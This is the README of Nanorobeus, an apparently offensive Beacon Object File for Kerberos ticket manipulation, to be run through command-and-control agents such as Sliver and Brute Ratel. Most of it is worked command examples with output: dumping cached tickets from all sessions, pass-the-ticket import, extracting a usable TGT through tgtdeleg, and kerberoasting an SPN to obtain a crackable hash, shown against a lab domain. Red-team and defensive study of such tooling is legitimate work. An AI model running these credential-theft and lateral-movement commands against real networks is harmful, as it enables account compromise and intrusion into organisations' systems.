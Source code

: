 # Nanorobeus
COFF file (BOF) for managing Kerberos tickets.

## Supported agents
* [Sliver](https://github.com/BishopFox/sliver)
* [Brute Ratel](https://bruteratel.com)
* Any other agent supporting Cobalt Strike BOFs (not tested)

## Commands

**luid** - get current logon ID

**sessions** *[/luid <0x0>| /all]* - get logon sessions

**klist** *[/luid <0x0> | /all]* - list Kerberos tickets

**dump** *[/luid <0x0> | /all]* - dump Kerberos tickets

**ptt** *\<base64\> [/luid <0x0>]* - import Kerberos ticket into a logon session

**purge** *[/luid <0x0>]* - purge Kerberos tickets

**tgtdeleg** *\<spn\>* - retrieve a usable TGT for the current user

**kerberoast** *\<spn\>* - perform Kerberoasting against specified SPN

## Examples
Get current logon ID.
```
=> nanorobeus64 luid

[+] Current LogonId: 0:0x19ea88e
```
Get detailed information about the current logon session.
```
=> nanorobeus64 sessions

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local
```
List Kerberos tickets for the current logon session. When elevated, use `/all` to list tickets from all of the sessions or `/luid 0x0` to list tickets in a specified logon session.
```
=> nanorobeus64 klist

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
    ...(snip)...
```
Dump tickets from the current logon session. When elevated, use `/all` to dump tickets from all of the sessions or `/luid 0x0` to dump tickets from a specified logon session.
```
=> nanorobeus64 dump

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
	Ticket          : doIFFjCCBRKgAwIBBaEDAgEWooIEGTCCBBVhggQRMIIEDaADAg...(snip)...
```
Import a ticket into the current logon session. When elevated, use `/luid 0x0` to import the ticket into a specified logon session.
```
=> make_token network fortress.local test pass
=> nanorobeus64 ptt doIFqjCCBaagAwIB...snip...

[+] Ticket successfully imported.
```
Purge all Kerberos tickets from the current logon session. When elevated, use `/luid 0x0` to purge the tickets from a specified logon session.
```
=> nanorobeus64 purge

[+] Successfully purged tickets.
```
Retrieve a usable TGT for the current user.
```
=> nanorobeus64 tgtdeleg cifs/server.fortress.local

[*] Found the AP-REQ delegation ticket in the GSS-API output
[*] Authenticator etype: AES256_CTS_HMAC_SHA1
[*] Successfully extracted the service ticket session key
[*] Successfully decrypted authenticator
[+] Successfully extracted TGT: doIFeDCCBXSgAwIBBaEDAgEWooIEcjC...(snip)...
```
Perform Kerberoasting by specifying SPN:
```
=> nanorobeus64 kerberoast HTTP/server.fortress.local

[*] Target SPN: HTTP/server.fortress.local
[+] Hash: $krb5tgs$23$*$FORTRESS.LOCAL$HTTP/server.fortress.local*$ac5e2f4d28fd377...(snip)...
```

## Credits
* Rubeus - https://github.com/GhostPack/Rubeus
* mimikatz - https://github.com/gentilkiwi/mimikatz
* kekeo - https://github.com/gentilkiwi/kekeo 